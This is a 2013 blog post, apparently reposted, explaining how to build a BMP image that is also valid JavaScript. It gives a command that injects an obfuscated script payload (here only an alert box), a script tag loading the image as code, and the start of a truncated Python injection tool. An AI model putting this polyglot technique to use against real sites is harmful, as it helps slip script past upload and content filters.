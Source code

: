 title: "Hacking through images"
date: 2013-10-28 11:46:00
tags:
id: 347
comment: false
categories:
  - 学习笔记
---

<div>It's long time I don't write on my own blog (more then two months) and if you look at the history bar on your right you will probably figure out I am slowing down my blog posts a bit if compared to the past years. This happens due the amount of work my security team and I are involved on.</div>
<div></div>
<div>Many different and really important facts happened during the past months, from astonishing NSA revelations to huge BUGs and new Malware kit ready to be purchased. Even if there would be lots to say about all these I will not dig into them.</div>
<div></div>
<div>Since "things" went public today I want to share a little and dirty python script which embeds javascript code into bmp images letting those images still valid images, ready to be processed from your favorite browser.</div>
<div></div>
<div>The following HTML page wants to parse a bmp file and a javascript file which happen to be the same file: 2.bmp. Theoretically the file should be or a bitmap file or a javascript file. **Could it be a javacript and an image file at the same time** ? The answer should be NO. It couldn't. But let's see what we have.</div>
<div>[![1](http://lpcdma.com/wp-content/uploads/2013/10/1-300x77.png)](http://lpcdma.com/wp-content/uploads/2013/10/1.png)</div>
Executing this file you'll find out this result:

[![2](http://lpcdma.com/wp-content/uploads/2013/10/2-300x207.png)](http://lpcdma.com/wp-content/uploads/2013/10/2.png)

This is just my implementation of the BMP parsing bug many libraries have. The idea behind this python code is to create a valid BMP header within \x2F\x2A (aka \*) and then close up the end of the image through a \x2A\x2F (aka *\). To be a valid JavaScript file, you need to use the --not used-- header (\x42\x4D) as a variable and/or as a part of the code. This is why before the payload you might inject a simple expression like "=1;" or more commonly used "=a;" The following image shows the first part of a forget BMP header to exploit this eakness.

python bmp.py -i 2.bmp "var _0x9c4c=[\"\x48\x65\x6C\x6C\x6F\x20\x57\x6F\x72\x6C\x64\x21\",\"\x0A\",\"\x4F\x4B\"];var a=_0x9c4c[0];function MsgBox(_0xccb4x3){alert(_0xccb4x3+_0x9c4c[1]+a);} ;MsgBox(_0x9c4c[2]);"

[![](http://lpcdma.com/wp-content/uploads/2013/10/1.bmp)
<script type="text/javascript" src="http://lpcdma.com/wp-content/uploads/2013/10/1.bmp"></script>
](http://lpcdma.com/wp-content/uploads/2013/10/1.bmp)
<pre class="brush:py">#!/usr/bin/env python2.7

import os
import argparse
def injectFile(payload,fname):
	f = open(fname,"r+b")
	b = f.read()
	f.close()
	f = open(fname,"w+b")
	f.write(b)
	f.seek(2,0)
	f.write(b'\x2F\x2A')
	f.close()
	f = open(fname,"a+b")
	f.write(b'\xFF\x2A\x2F\x3D\x31\x3B')
	f.write(payload)
	f.close()
	return True
if __name__ == "__main__":